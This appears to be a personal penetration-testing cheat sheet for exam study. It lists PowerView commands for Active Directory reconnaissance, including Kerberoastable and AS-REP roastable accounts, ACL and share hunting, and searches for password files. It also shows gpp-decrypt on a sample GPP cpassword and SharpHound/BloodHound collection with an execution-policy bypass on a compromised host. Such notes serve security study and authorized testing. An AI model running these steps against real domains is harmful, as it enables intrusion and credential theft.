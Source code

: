 ```bash
Get-NetSession -ComputerName files04 -Verbose #Checking logged on users with Get-NetSession, adding verbosity gives more info.
Get-DomainUser -PreauthNotRequired -verbose # identifying AS-REP roastable accounts
Get-NetUser -SPN | select serviceprincipalname #Kerberoastable accounts
Get-NetGroupMember -GroupName "Domain Admins"
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion #attack old OS and see which are web server or file server
Find-LocalAdminAccess #  determine if our current user has administrative permissions on any computers in the domain
Get-ObjectAcl -Identity <user> # enumerates ACE(access control entities), lists SID(security identifier). ObjectSID
Convert-SidToName <sid/objsid> # converting SID/ObjSID to name
Get-NetDomain #basic information about the domain

Get-NetSession -ComputerName *client74*
Get-ObjectAcl -Identity *stephanie* #see ObjectSID, ActiveDirectoryRights, SecurityIdentifier (securityidentifier has certain rights on objectSID)
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
Invoke-EnumerateLocalAdmin      #searched for the Local Administrators for the domain
Invoke-UserHunter
Invoke-Portscan -Hosts sql01
Invoke-ShareFinder      #find non system shares 
Invoke-FileFinder       #find possible password file
Invoke-ACLScanner -ResolveGUIDs        #check ACL

# Checking for "GenericAll" right for a specific group, after obtaining they can be converted using convert-sidtoname
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104" | Convert-SidToName #method 1
Convert-SidToName *S-1-5-21-1987370270-658905905-1781884369-1104*  #method 2
Find-DomainShare #find the shares in the domain. ##TIPS: ls all the NAME (folder) found in Find-DomainShare
- ls \\*FILES04*\*docshare*   #name=docshare, computername=FILES04.corp.com
- ls \\*dc1.corp.com*\sysvol\*corp.com*\ # %SystemRoot%\SYSVOL\Sysvol\domainname on the domain controller and every domain user has access to it.
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE" #decrypt cpassword in Group Policy Preferences (GPP) in kali
```

### Bloodhound (Install before exam, snapshot VM before installing)
- https://github.com/fox-it/BloodHound.py
- sometimes bloodhound may not see everything (e.g. DACL permissions) that can be seen with PowerView. 
```bash
# Sharphound - transfer sharphound.ps1 into the compromised machine
powershell -ep bypass  
Import-Module .\Sharphound.ps1 
Invoke-BloodHound -CollectionMethod All -OutputDirectory <location> -OutputPrefix "name" # collects and saved with the specified details, output will be saved in windows compromised machine
      e.g. Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip

# Download zip onto kali, import into bloodhound  
```bash
sudo neo4j console
# then upload the .json files obtained

sudo bloodhound
# then upload the .zip files obtained
```
